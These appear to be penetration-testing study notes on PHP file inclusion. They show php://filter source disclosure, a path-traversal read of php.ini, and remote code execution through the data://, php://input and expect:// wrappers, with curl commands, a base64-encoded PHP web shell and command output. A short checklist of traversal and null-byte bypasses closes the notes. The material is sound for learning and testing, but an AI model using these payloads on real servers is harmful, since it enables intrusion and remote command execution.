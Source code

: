# File Inclusion
- **PHP Filters**
    - PHP Filters are a type of PHP wrappers, where we can pass different types of input and have it filtered by the filter we specify.
    - To use PHP wrapper streams, we can use the php:// scheme in our string, and we can access the PHP filter wrapper with php://filter/.

    - Source Code Disclosure:
    ```url
    php://filter/read=convert.base64-encode/resource=config
    ```

## PHP Wrappers    
### 1. Data
- The data wrapper can be used to include external data, including PHP code. 
- However, the data wrapper is only available to use if the (allow_url_include) setting is enabled in the PHP configurations.
- **Checking PHP Configurations**
    - To do so, we can include the PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, where X.Y is your install PHP version. 
    - We can start with the latest PHP version, and try earlier versions if we couldn't locate the configuration file.
    ```bash
    curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
    ```
    - Once we have the base64 encoded string, we can decode it and grep for allow_url_include to see its value:
    ```bash
    echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

    allow_url_include = On
    ```
- **Remote Code Execution**
    - With allow_url_include enabled, we can proceed with our data wrapper attack. 
    - As mentioned earlier, the data wrapper can be used to include external data, including PHP code.
    - First step would be to base64 encode a basic PHP web shell, as follows:
    ```bash
    echo '<?php system($_GET["cmd"]); ?>' | base64

    PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
    ```
    - Now, we can URL encode the base64 string, and then pass it to the data wrapper with `data://text/plain;base64,`. Finally, we can use pass commands to the web shell with `&cmd=<COMMAND>`:
    ```bash
    curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

### 2. Input
- Similar to the data wrapper, the input wrapper can be used to include external input and execute PHP code. 
- The difference between it and the data wrapper is that we pass our input to the input wrapper as a POST request's data. 
- So, the vulnerable parameter must accept POST requests for this attack to work.
```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> [!NOTE]
> To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. `use $_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)

### 3. Expect
- Finally, we may utilize the expect wrapper, which allows us to directly run commands through URL streams.
- However, expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps rely on it for their core functionality, so we may find it in specific cases.
- We can determine whether it is installed on the back-end server just like we did with allow_url_include earlier, but we'd grep for expect instead, and if it is installed and enabled we'd get the following:
```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```
- To use the expect module, we can use the expect:// wrapper and then pass the command we want to execute, as follows:
```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```




## Testing 
- Bypasses
    - [ ] Check non-recursive path traversal filters
    - [ ] Try list of path traversal payloads (Encoding, path truncation)
    - [ ] Check for appended extension e.g. .php, .aspx
    - [ ] Try Null byte `%00` , fragment `#` (/etc/passwd%00.php)
